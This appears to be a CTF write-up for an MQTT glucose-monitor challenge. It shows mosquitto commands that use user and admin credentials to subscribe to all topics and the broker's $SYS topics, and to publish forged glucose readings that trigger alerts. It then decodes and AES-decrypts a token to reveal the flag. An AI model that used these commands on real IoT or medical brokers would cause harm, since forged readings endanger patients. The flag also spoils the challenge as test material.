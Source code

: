# Solution

## Interacting with the MQTT server

So, we have a MQTT server on SERVER.
We can try and subscribe to channels there. We don't have a list of all channels, so we'll subscribe to all possible channels using `#`.

```
$ mosquitto_sub -v -h SERVER -p 1883 -t '#'
Connection Refused: not authorised.
```

We need to provide credentials. Let's try the credentials of `user`:

```
$ mosquitto_sub -v -h SERVER -p 1883 -t '#' -u user -P expert
ph0wn18/glucose-level 66
...
```

It works! We get a new glucose level every 20 seconds.

## Hacking


### Possible hack attempts

Now what can we do with that?

1. Try to publish to another topic
2. Try to read system topics
3. Try to modify glucose level

#### Publish to another topic

1. Keep subscriber live (`mosquitto_sub -v -h SERVER -p 1883 -t '#' -u user -P expert`)
2. Meanwhile, we try and publish to another channel:

```
$ mosquitto_pub -d -h SERVER -p 1883 -t 'ph0wn18/try' -u user -P expert -m 'test'
Client mosqpub/21302-alligator sending CONNECT
Client mosqpub/21302-alligator received CONNACK
Client mosqpub/21302-alligator sending PUBLISH (d0, q0, r0, m1, 'ph0wn18/try', ... (4 bytes))
Client mosqpub/21302-alligator sending DISCONNECT
```

The debug messages are a bit misleading: the message is sent, but we do not see it in our subscriber. This means that *the message was not published* actually.

#### Read system topics

We don't get any response here:

`mosquitto_sub -v -h SERVER -p 1883 -t '$SYS/#' -u user -P expert`

#### Change glucose level

We change glucose level. Same as previously the debug message say 'PUBLISH' but in reality the message is *not* published as we don't see it in our global subscriber.

```
$ mosquitto_pub -d -h SERVER -p 1883 -t 'ph0wn18/glucose-level' -u user -P expert -m '100'
Client mosqpub/22470-alligator sending CONNECT
Client mosqpub/22470-alligator received CONNACK
Client mosqpub/22470-alligator sending PUBLISH (d0, q0, r0, m1, 'ph0wn18/glucose-level', ... (3 bytes))
Client mosqpub/22470-alligator sending DISCONNECT
```

#### Same but as admin

TO WRITE: WHERE TO FIND ADMIN CREDENTIALS IN THE APP.

Also, in the subscriber, you should see from time to time the following message:

```
ph0wn18/info connect as admin for more topics
```

So let's try to subscribe and publish as admin:
- id: `admin`
- password: `Sugar1sBaaaaaaad`

Publishing to another channel: unsuccessful

`mosquitto_pub -d -h SERVER -p 1883 -t 'ph0wn18/try' -u admin -P Sugar1sBaaaaaaad -m 'test'`: the message is actually not published.

Subscribing to SYS topics: **success**

```
$ mosquitto_sub -v -h SERVER -p 1883 -t '$SYS/#' -u admin -P Sugar1sBaaaaaaad
$SYS/broker/version mosquitto version 1.4.12
$SYS/broker/timestamp 2017-06-01 13:03:46+0000
$SYS/broker/uptime 2959 seconds
$SYS/broker/clients/total 4
...
```

- We have a Mosquitto server at the other end, version 1.4.12
- We have 4 clients at all
- The server sent 146 messages so far `$SYS/broker/messages/sent 146`
- etc

Nothing that seems really useful.

Changing glucose level: **success**

```
$ mosquitto_pub -d -h SERVER -p 1883 -t 'ph0wn18/glucose-level' -u admin -P Sugar1sBaaaaaaad -m '150'`
```
It works and we indeed see the new value printed in our subscriber.

How about trying strange values.

```
$ mosquitto_pub -d -h SERVER -p 1883 -t 'ph0wn18/glucose-level' -u admin -P Sugar1sBaaaaaaad -m 'test'
```

And in our subscriber we see a message on a new topic `ph0wn18/alert`:

```
ph0wn18/alert Hmm. Someone's trying to hack me? You're getting close.
```

We try with a high level of glucose.
```
$ mosquitto_pub -d -h SERVER -p 1883 -t 'ph0wn18/glucose-level' -u admin -P Sugar1sBaaaaaaad -m '5000'
```

We see in our subscriber:

```
ph0wn18/glucose-level 5000
ph0wn18/alert Too high blood sugar!
```

How about launching a subscriber as `admin`:

```
$ mosquitto_sub -v -h SERVER -p 1883 -t '#' -u admin -P Sugar1sBaaaaaaad
```

We get a little more, because we have a topic `ph0wn18/flag` which is promising:

```
ph0wn18/glucose-level 67
ph0wn18/glucose-level 5000
ph0wn18/flag Nice try. Try and generate another type of alert.
```

We try with a low level of glucose:

```
$ mosquitto_pub -d -h SERVER -p 1883 -t 'ph0wn18/glucose-level' -u admin -P Sugar1sBaaaaaaad -m '-10'

ph0wn18/glucose-level -10
ph0wn18/alert Hypoglycemia risk!!
ph0wn18/info Ensure your team id is correctly set in ph0wn18/teamid - or set it (admin required)
ph0wn18/flag Encrypted token: VXNlIGFkbWluIHBhc3N3b3JkIHRvIGRlY3J5cHQgQUVTOiBjRD3ndvozFLDfPnaJ7GpENVuftgJgG6jdwpKdb6Q5lfDNqgJbCKVQ5tdAxvLdHFA=
```

We set our team id:

```
$ mosquitto_pub -d -h SERVER -p 1883 -t 'ph0wn18/teamid' -u admin -P Sugar1sBaaaaaaad -m 'team2'
```


## Decrypting

The flag message talks about an "encrypted" token. We recognize it uses Base64:

```python
token = 'VXNlIGFkbWluIHBhc3N3b3JkIHRvIGRlY3J5cHQgQUVTOiBjRD3ndvozFLDfPnaJ7GpENVuftgJgG6jdwpKdb6Q5lfDNqgJbCKVQ5tdAxvLdHFA='
base64.b64decode(token)
```

and it decrypts to : "Use team password to decrypt AES: cD=\xe7v..."


Each team has its own team key. So we decrypt:

```python
from Crypto.Cipher import AES
cipher = AES.new('YOUR TEAM PASSWORD')
cipher.decrypt('cD=\xe7v\xfa3\x14\xb0\xdf>v\x89\xecjD5[\x9f\xb6\x02`\x1b\xa8\xdd\xc2\x92\x9do\xa49\x95\xf0\xcd\xaa\x02[\x08\xa5P\xe6\xd7@\xc6\xf2\xdd\x1cP')
```

The result is : `ph0wn{ur_lucky_no_diab4te_h4r3} `

## Source code for solution


`sudo -H pip install paho-mqtt`

see `mqtt-solve.py`

```
$ python mqtt-solve.py 
hacker] Topic: ph0wn18/flag Message: Encrypted token (team key): VXNlIHRlYW0gcGFzc3dvcmQgdG8gZGVjcnlwdCBBRVM6IEQFdgjLv3EiEaFJZ/rsIsomxqb51JTjREHDTwMbdDx2wjea79fH0PhvRQA3N2W8uw==
Received encrypted flag
[hacker] VXNlIHRlYW0gcGFzc3dvcmQgdG8gZGVjcnlwdCBBRVM6IEQFdgjLv3EiEaFJZ/rsIsomxqb51JTjREHDTwMbdDx2wjea79fH0PhvRQA3N2W8uw==
The flag is ph0wn{ur_lucky_no_diab4te_h4r3} 
```
